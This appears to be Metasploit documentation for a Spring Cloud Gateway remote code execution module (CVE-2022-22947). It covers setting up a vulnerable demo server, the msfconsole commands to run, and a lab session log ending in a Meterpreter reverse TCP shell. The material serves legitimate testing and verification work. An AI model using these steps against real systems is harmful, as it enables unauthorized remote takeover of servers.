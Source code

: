 ## Vulnerable Application

The vulnerability exploits [CVE-2022-22947](https://nvd.nist.gov/vuln/detail/CVE-2022-22947) an unauthenticated RCE
vulnerability in Spring Cloud Gateway. According to [VMware](https://tanzu.vmware.com/security/cve-2022-22947)
the versions affected are:

- 3.1.0
- 3.0.0 to 3.0.6
- Older, unsupported versions are also affected

A sample demo [project](https://github.com/wdahlenburg/spring-gateway-demo) is available,
which can be used to run a vulnerable server by following the installation instructions below.
    
### Installation Instructions

```bash
    # To use the pre-compile vulnerable application
    wget https://github.com/wdahlenburg/spring-gateway-demo/releases/download/v.0.0.1/spring-gateway-demo-0.0.1-SNAPSHOT.jar
    sudo apt install default-jdk
    java -jar spring-gateway-demo-0.0.1-SNAPSHOT.jar # This will host the app on port 9000


    # If you want to compile for a version of spring cloud gateway on your own
    git clone https://github.com/wdahlenburg/spring-gateway-demo.git

    # In pom.xml, change the version in '<spring-cloud.version>2021.0.1-SNAPSHOT</spring-cloud.version>'. 
    # To see which spring cloud version includes which version of spring cloud gateway, 
    # look here : https://repo1.maven.org/maven2/org/springframework/cloud/spring-cloud-dependencies/

    apt install maven
    mvn package -DskipTests
    java -jar target/spring-gateway-demo-0.0.1-SNAPSHOT.jar # This will host the app on port 9000
```


## Verification Steps

- Run the vulnerable server
- Start msfconsole
- Do: `use exploit/linux/http/spring_cloud_gateway_rce`
- Do: `set RHOSTS <server_ip>`
- Do: `set RPORT 9000`
- Do: `run`
- You should get a Meterpreter shell.

## Options

No particular option to be set

## Scenarios

### Spring Cloud gateway version 3.1.0 on Linux kali 5.18.0-kali5-amd64

```
msf6 > use exploit/linux/http/spring_cloud_gateway_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/spring_cloud_gateway_rce) > set RHOSTS 192.168.19.140
RHOSTS => 192.168.19.140
msf6 exploit(linux/http/spring_cloud_gateway_rce) > set RPORT 9000
RPORT => 9000
msf6 exploit(linux/http/spring_cloud_gateway_rce) > run

[*] Started reverse TCP handler on 192.168.1.7:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if server is vulnerable
[*] Triggering code execution using routes
[+] Route deleted
[+] The target is vulnerable.
[*] Executing Unix Command for cmd/unix/python/meterpreter/reverse_tcp
[*] Triggering code execution using routes
[*] Sending stage (40164 bytes) to 192.168.1.7
[*] Meterpreter session 7 opened (192.168.1.7:4444 -> 192.168.1.7:53264) at 2022-10-11 17:44:53 -0400
[+] Route deleted

meterpreter >
```

